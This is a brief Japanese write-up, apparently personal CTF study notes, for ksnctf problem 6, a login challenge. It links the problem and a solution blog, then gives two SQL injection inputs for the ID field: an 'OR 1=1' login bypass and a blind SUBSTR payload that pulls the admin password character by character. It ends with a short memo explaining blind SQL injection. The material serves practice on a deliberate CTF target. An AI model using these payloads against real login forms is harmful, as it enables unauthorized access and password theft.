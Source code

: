 ### 問題6 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)

### 解法

1. 以下をID欄に入力  
     ' OR 1=1 --        
2. 以下をID欄に入力  
    admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--        
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
